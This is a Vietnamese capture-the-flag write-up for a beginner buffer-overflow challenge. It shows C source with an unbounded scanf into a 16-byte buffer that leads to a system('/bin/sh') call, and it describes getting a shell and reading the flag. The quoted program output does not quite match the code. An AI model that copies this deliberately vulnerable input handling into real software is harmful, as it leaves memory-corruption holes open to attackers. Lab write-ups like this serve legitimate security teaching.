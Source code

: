 # We Need You!!   

## Thông tin về challenge:  

**- Author:** u53rr007    
**- Tags:** insane    
**- Description:** FIA club opens for registration. Hurry!! Fill in the form to join  
**- Hint:** Think outside the box. 😶‍🌫️    
**- Link:**  nc chall.fia.io.vn 8386  

## Bước 1: Đoc code
- Mở file source code mà challenge đã cho:
```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

//------------------------Setup config (just ignore)---------------------
void kill_on_timeout(int sig) {
    if (sig == SIGALRM) {
        printf("[!] Anti DoS Signal. Patch me out for testing.");
        _exit(0);
    }
}

void ignore_me_init_signal() {
    signal(SIGALRM, kill_on_timeout);
    alarm(180);
}
//------------------------Setup config (just ignore)---------------------

//----------------------------------main------------------------------------
int main(){
	char buf[16];
	int v1 = 0;
	printf("Are you interested in joining FIA club (Yes or No only)> ");
	scanf("%s", buf);
	if(v1 != 0){
		printf("Your v1 var = %d", v1);
		system("/bin/sh");
	}
	else{
		printf("Hmmm.... Maybe try harder!!");
		exit(0);
	}
	return 0;
}
```

- Chú ý đoạn
```
char buf[16];
int v1 = 0;
scanf("%s", buf);
if(v1 != 0){
    system("/bin/sh");
}

```
- buf chỉ có 16 bytes, nhưng scanf có thể đọc được vô hạn input.
- Đây là lỗ hổng có thể khai thác, nếu ta nhập input siêu lớn sẽ gây buffer overflow.

  ## Bước 2: Khai thác lỗ hổng
  - Khi nhập input siêu lớn, ví dụ: ballsballsballsballsballsballsballsballsballsballsballsballs
  - Ta thấy dòng "Your bash shell is ready"
  - Bằng một cách thần kì nào đó mà chương trình trả về bash shell của server.
  - Sau dó ls -a, ta thấy 1 .flag khá là khả nghi
  ```
  cat .flag
  4649417b305633725f463130575f31535f333453597d
  ```
  - Chương trình trả về 1 chuỗi hex, mang lên cyberchef.io, ta được flag:
  ## FIA{0V3r_F10W_1S_34SY}
  ![image](https://github.com/user-attachments/assets/ac89a9a7-8ef2-4248-b65f-247a408eca90)
